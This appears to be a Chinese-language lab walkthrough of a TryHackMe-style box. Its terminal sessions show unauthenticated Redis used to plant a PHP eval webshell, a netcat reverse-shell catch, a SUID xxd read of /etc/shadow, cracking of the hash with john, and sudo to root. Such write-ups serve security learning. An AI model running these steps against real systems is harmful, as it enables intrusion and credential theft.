



## 端口扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 5000 -p- 10.10.132.234                                      
[sudo] kali 的密码：
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 22:49 EST
Nmap scan report for 10.10.132.234
Host is up (0.37s latency).
Not shown: 64519 closed tcp ports (conn-refused), 1014 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 55.89 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -A -p80,6379 10.10.132.234
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 22:51 EST
Nmap scan report for 10.10.132.234
Host is up (0.36s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
6379/tcp open  redis   Redis key-value store 6.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (95%), Linux 3.16 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Android 4.1.1 (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   238.68 ms 10.2.0.1
2   ... 3
4   369.63 ms 10.10.132.234

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.62 seconds
```


## webshell
写入webshell

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo redis-cli -h 10.10.132.234
10.10.132.234:6379> config set dir /var/www/html
OK
10.10.132.234:6379> config set dbfilename shell.php
OK
10.10.132.234:6379> set test "<?php @eval($_POST[x]);?>"
OK
10.10.132.234:6379> save
OK
10.10.132.234:6379> 
```
连接到webshell

找个反弹shell弹个shell过来
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nc -lvnp 53
listening on [any] 53 ...
connect to [10.2.123.186] from (UNKNOWN) [10.10.132.234] 33368
whoami
www-data
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/html$ cd /home
cd /home
www-data@ubuntu:/home$ ls
ls
vianka
www-data@ubuntu:/home$ cd vianka
cd vianka
www-data@ubuntu:/home/vianka$ ls
ls
redis-stable  user.txt
www-data@ubuntu:/home/vianka$ cat user.txt
cat user.txt
thm{red1s_rce_w1thout_credent1als}
```
## LPE

SUID xxd读取shadow文件

```bash
www-data@ubuntu:/home/vianka/redis-stable$ find / -perm -04000 -type f 2>/dev/null
<a/redis-stable$ find / -perm -04000 -type f 2>/dev/null                     
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
www-data@ubuntu:/home/vianka/redis-stable$ LFILE=/etc/shadow
LFILE=/etc/shadow
www-data@ubuntu:/home/vianka/redis-stable$ ./xxd "$LFILE" | xxd -r
./xxd "$LFILE" | xxd -r
bash: ./xxd: No such file or directory
www-data@ubuntu:/home/vianka/redis-stable$ xxd "$LFILE" | xxd -r
xxd "$LFILE" | xxd -r
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```
可以看到vianka的hash密码

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ echo -n 'vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0' > hash.txt
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo john hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
beautiful1       (vianka)     
1g 0:00:00:07 DONE 2/3 (2024-03-04 00:39) 0.1408g/s 1599p/s 1599c/s 1599C/s maryjane1..garfield1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
得到vianka的密码
vianka\beautiful1

靶机未开放22端口

在shell中直接切换

```bash
www-data@ubuntu:/home/vianka/redis-stable$ su vianka
su vianka
Password: beautiful1

vianka@ubuntu:~/redis-stable$ whoami
whoami
vianka
vianka@ubuntu:~/redis-stable$ sudo -l
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
vianka@ubuntu:~/redis-stable$ sudo su
sudo su
root@ubuntu:/home/vianka/redis-stable# whoami
whoami
root
root@ubuntu:/home/vianka/redis-stable# cd /root       
cd /root
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
thm{xxd_pr1v_escalat1on}
root@ubuntu:~# 
```